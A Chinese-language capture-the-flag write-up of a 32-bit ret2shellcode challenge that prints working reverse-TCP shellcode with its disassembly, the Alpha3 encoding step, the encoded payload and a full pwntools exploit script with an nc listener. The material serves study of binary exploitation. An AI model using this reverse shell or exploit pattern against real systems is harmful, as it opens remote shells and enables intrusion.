






# 记录一次 Ret2Shellcode

打了一次学校举办的 网安赛，里面就两个 Pwn题 ~~这个学校就是逊啦~~

附件在github里

# Challenge

CheckSec：

```c
[*] '/home/mindedness/Shares/pwn/attachment'
    Arch:       i386-32-little
    RELRO:      Full RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        PIE enabled
    Stack:      Executable
    RWX:        Has RWX segments
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No

```

32位，NX关，有RWX



首先映入眼帘的就是一个泄露点加上一个溢出点



padding = 0xF8 - 0x10

也就是在输入 0xE8字节后，会泄露buf的值，即可获取开头位置。

第二次可以覆盖到 return address，因而我们可以进行Ret2Shellcode技术的利用

# 遇到的问题

‍



这个题的filter()函数使得我们的Shellcode需要是可见字符，因而我们需要使用Alpha3对Shellcode进行转换

‍

程序将 stdin stdout stderr 悉数关闭，因此我们原来一般使用的ShellCode在该题都无法使用。

‍

这个题和其他我做过的 Ret2Shellcode 不一样的就是这里，我第一次使用所谓 反连TCP的Shellcode。

而且，网上的 connect()+dupsh() 是无法完成反弹shell的。

我一开始构造的ShellCode如下

```python
from pwn import *

context.arch = 'i386'  

# 构造 shellcode
shellcode = shellcraft.connect('127.1.1.1', 8080)  # 连接到攻击者的 IP 和端口
shellcode += shellcraft.mov('ebx', 'eax')          # 将 socket fd 保存到 ebx
shellcode += shellcraft.dup2('ebx', 0)             # 将 socket fd 复制到 stdin (0)
shellcode += shellcraft.dup2('ebx', 1)             # 将 socket fd 复制到 stdout (1)
shellcode += shellcraft.dup2('ebx', 2)             # 将 socket fd 复制到 stderr (2)
shellcode += shellcraft.sh()                       # 执行 /bin/sh

# 将 shellcode 编译为字节码
sh = asm(shellcode)
print(sh)
```

然而，我们会发现，这样构造的ShellCode在Alpha3变换后长度过长，无法使用。



~~因为是断网的比赛，我也没有足够的shellcode库存，其实我在打比赛的时候就到打这里了~~

# 解决方案

## Reverse TCP ShellCode

我们可以在shellstorm上找到这样一个ShellCode:

[Linux/x86 - Shell Reverse TCP Shellcode - 74 bytes](https://shell-storm.org/shellcode/files/shellcode-883.html)

```python
/* 
*  Title:    Shell Reverse TCP Shellcode - 74 bytes
*  Platform: Linux/x86
*  Date:     2014-07-25
*  Author:   Julien Ahrens (@MrTuxracer)
*  Website:  http://www.rcesecurity.com 
*
* Disassembly of section .text:
*  00000000 <_start>:
*  0:   6a 66                push   0x66
*  2:   58                   pop    eax
*  3:   6a 01                push   0x1
*  5:   5b                   pop    ebx
*  6:   31 d2                xor    edx,edx
*  8:   52                   push   edx
*  9:   53                   push   ebx
*  a:   6a 02                push   0x2
*  c:   89 e1                mov    ecx,esp
*  e:   cd 80                int    0x80
* 10:   92                   xchg   edx,eax
* 11:   b0 66                mov    al,0x66
* 13:   68 7f 01 01 01       push   0x101017f <ip: 127.1.1.1
* 18:   66 68 05 39          pushw  0x3905 <port: 1337
* 1c:   43                   inc    ebx
* 1d:   66 53                push   bx
* 1f:   89 e1                mov    ecx,esp
* 21:   6a 10                push   0x10
* 23:   51                   push   ecx
* 24:   52                   push   edx
* 25:   89 e1                mov    ecx,esp
* 27:   43                   inc    ebx
* 28:   cd 80                int    0x80
* 2a:   6a 02                push   0x2
* 2c:   59                   pop    ecx
* 2d:   87 da                xchg   edx,ebx
*
* 0000002f <loop>:
* 2f:   b0 3f                mov    al,0x3f
* 31:   cd 80                int    0x80
* 33:   49                   dec    ecx
* 34:   79 f9                jns    2f <loop>
* 36:   b0 0b                mov    al,0xb
* 38:   41                   inc    ecx
* 39:   89 ca                mov    edx,ecx
* 3b:   52                   push   edx
* 3c:   68 2f 2f 73 68       push   0x68732f2f
* 41:   68 2f 62 69 6e       push   0x6e69622f
* 46:   89 e3                mov    ebx,esp
* 48:   cd 80                int    0x80
*/

#include <stdio.h>

unsigned char shellcode[] = \
"\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89\xe1\xcd\x80\x92\xb0\x66\x68\x7f\x01\x01\x01\x66\x68\x05\x39\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\x43\xcd\x80\x6a\x02\x59\x87\xda\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x41\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80";
main()
{
printf("Shellcode Length:  %d\n", sizeof(shellcode) - 1);
int (*ret)() = (int(*)())shellcode;
ret();
}
```

我们在此对其ShellCode的构造进行一下学习

## 学习

### 1. **创建 Socket**

```asm
push   0x66        ; 将 0x66 (socketcall 的系统调用号) 压栈
pop    eax         ; 将 0x66 弹出到 eax
push   0x1         ; 将 0x1 (SYS_SOCKET) 压栈
pop    ebx         ; 将 0x1 弹出到 ebx
xor    edx, edx    ; edx = 0
push   edx         ; 将 0 (protocol) 压栈
push   ebx         ; 将 1 (type: SOCK_STREAM) 压栈
push   0x2         ; 将 2 (domain: AF_INET) 压栈
mov    ecx, esp    ; ecx 指向栈顶，即 socket 的参数
int    0x80        ; 调用 socketcall，创建 socket
xchg   edx, eax    ; 将 socket 的文件描述符保存到 edx
```

**功能**：

* 创建一个 TCP socket，文件描述符存储在 `edx`​ 中。

‍

### 2. **连接到攻击者的 IP 和端口**

```asm
mov    al, 0x66    ; eax = 0x66 (socketcall 的系统调用号)
push   0x101017f   ; 将 IP 地址 127.1.1.1 压栈
pushw  0x3905      ; 将端口号 1337 压栈
inc    ebx         ; ebx = 2 (SYS_BIND)
push   bx          ; 将 2 (AF_INET) 压栈
mov    ecx, esp    ; ecx 指向栈顶，即 sockaddr_in 结构
push   0x10        ; 将 16 (addrlen) 压栈
push   ecx         ; 将 sockaddr_in 结构的指针压栈
push   edx         ; 将 socket 的文件描述符压栈
mov    ecx, esp    ; ecx 指向栈顶，即 connect 的参数
inc    ebx         ; ebx = 3 (SYS_CONNECT)
int    0x80        ; 调用 socketcall，连接到攻击者的 IP 和端口
```

**功能**：

* 连接到攻击者的 IP (`127.1.1.1`​) 和端口 (`1337`​)。

‍

### 3. **重定向标准输入、输出和错误**

```asm
push   0x2         ; 将 2 压栈
pop    ecx         ; ecx = 2 (stdout 的文件描述符)
xchg   edx, ebx    ; 将 socket 的文件描述符保存到 ebx

loop:
mov    al, 0x3f    ; eax = 0x3f (dup2 的系统调用号)
int    0x80        ; 调用 dup2，将 socket fd 复制到 ecx 指定的文件描述符
dec    ecx         ; ecx-- (依次处理 stderr, stdout, stdin)
jns    loop        ; 如果 ecx >= 0，继续循环
```

**功能**：

* 将 socket 的文件描述符复制到 `stdin (0)`​、`stdout (1)`​ 和 `stderr (2)`​。

‍

### 4. **执行**  **​`/bin/sh`​**​

```asm
mov    al, 0xb     ; eax = 0xb (execve 的系统调用号)
inc    ecx         ; ecx = 0
mov    edx, ecx    ; edx = 0
push   edx         ; 将 0 (null terminator) 压栈
push   0x68732f2f  ; 将 "//sh" 压栈
push   0x6e69622f  ; 将 "/bin" 压栈
mov    ebx, esp    ; ebx 指向 "/bin//sh" 的地址
int    0x80        ; 调用 execve，执行 /bin/sh
```

**功能**：

* 执行 `/bin/sh`​，提供一个交互式 shell。

‍

# 解决后

通过上面的shellcode构建，我们就可以在本地获取到shell了。

Use.py

```python
from pwn import *
#import os

sh = b'\x6a\x66\x58\x6a\x01\x5b\x31\xd2\x52\x53\x6a\x02\x89\xe1\xcd\x80\x92\xb0\x66\x68'

ip = [127,1,1,1]

k = b''
for i in ip:
    k += i.to_bytes()
sh += k #ip 
#print(k)
sh += b'\x66\x68'
port = 1337
#print(hex(port))
sh += b'\x05\x39' #port

sh += b'\x43\x66\x53\x89\xe1\x6a\x10\x51\x52\x89\xe1\x43\xcd\x80\x6a\x02\x59\x87\xda\xb0\x3f\xcd\x80\x49\x79\xf9\xb0\x0b\x41\x89\xca\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80'

print(sh)
```

运行结果

```sh
❯ python ./use.py
b'jfXj\x01[1\xd2RSj\x02\x89\xe1\xcd\x80\x92\xb0fh\x7f\x01\x01\x01fh\x059CfS\x89\xe1j\x10QR\x89\xe1C\xcd\x80j\x02Y\x87\xda\xb0?\xcd\x80Iy\xf9\xb0\x0bA\x89\xcaRh//shh/bin\x89\xe3\xcd\x80'
```

Alpha3工具使用 ( 这里我是将简单Alpha3封装了一下，你们使用时应该用 `python2 ALPHA3.py`​而不是 alpha3 )

```sh
echo -e -n "jfXj\x01[1\xd2RSj\x02\x89\xe1\xcd\x80\x92\xb0fh\x7f\x01\x01\x01fh\x059CfS\x89\xe1j\x10QR\x89\xe1C\xcd\x80j\x02Y\x87\xda\xb0?\xcd\x80Iy\xf9\xb0\x0bA\x89\xcaRh//shh/bin\x89\xe3\xcd\x80" > shellcode.bin
alpha3 x86 ascii mixedcase ecx --input=shellcode.bin > output
```

得到Alpha3可见字符化后的ShellCode

```sh
hffffk4diFkDqj02Dqk0D1AuEE2O0T2w0Z0U0i0F3r180c7o023p3A4K4s3p4A1n0X7L060n010T1k0u2j120R2x5M4R0Y1P0e2s4x4O0s4U4w2F020o4w4t5p2n3m3D0x2r3Y3U092K4x3h0b2Z7M0W0F2E1l1M0R001o3I3C384r0s
```

随后就可以构造Exp了

Exp.py

```sh
from pwn import *
import LibcSearcher

file = "./attachment"
elf = ELF(file)

context(arch=elf.arch,os='linux')

if args['DEBUG']:
    context.log_level = 'debug'


if args['REMOTE']:
    io = remote('192.168.202.151', 32768)
else:
    io = process(file)
    
    
if elf.arch == 'i386':
    B = 4
elif elf.arch == 'amd64':
    B = 8
else:
    print("PLS Input The Address Byte: ")
    B = int(input())
print("B=" +str(B))
    
sla = lambda ReceivedMessage,SendMessage :io.sendlineafter(ReceivedMessage,SendMessage)
sl = lambda SendMessage :io.sendline(SendMessage)
sa = lambda ReceivedMessage,SendMessage :io.sendafter(ReceivedMessage,SendMessage)
rcv = lambda ReceiveNumber, TimeOut=Timeout.default :io.recv(ReceiveNumber, TimeOut)
rcu = lambda ReceiveStopMessage, Drop=False, TimeOut=Timeout.default :io.recvuntil(ReceiveStopMessage,Drop,TimeOut)


#gdb.attach(io)
#05 1F 3B 7D 05 52 81 2C 9F 0D


io.send(b'A'*0xe8)

rcu(b'A'*0xe8)

addr = u32(rcv(4))

success("Leaked Address: " + hex(addr))

#sh = b"hffffk4diFkDqj02Dqk0D1AuEE2O0T2w0Z0U0i0F3r180c7o023p3A4K4s3p4A1n0X335o352M0T1k0u2j120R2x5M4R0Y1P0e2s4x4O0s4U4s0Y07064t8o4B0r3m3D0x2r3Y3U092K4x3h0b2Z7M0W0F2E1l1M0R001o3I3C384r0s" 
sh = b"hffffk4diFkDqj02Dqk0D1AuEE2O0T2w0Z0U0i0F3r180c7o023p3A4K4s3p4A1n0X7L060n010T1k0u2j120R2x5M4R0Y1P0e2s4x4O0s4U4w2F020o4w4t5p2n3m3D0x2r3Y3U092K4x3h0b2Z7M0W0F2E1l1M0R001o3I3C384r0s"

payload = sh
padding = 0xf8 +B
payload = payload.ljust(padding,b'A') 
payload += flat([addr,addr])
#gdb.attach(io)
io.sendline(payload)

io.interactive()

```

本地测试通过



由于此时比赛结束，我只能把它的题目自己部署，自己打了。

线上测试：

‍

把上面的注释去掉，下面注释上，运行 `python ./Exp.py REMOTE`​

记得在接收shell的机器上运行`nc -lvp 1337`​



线上也打通 (记得这里需要满足一个条件： ShellCode需要是Null-Free的，因而我们的IP地址如果带0，则需要进行IP地址的修改)

‍
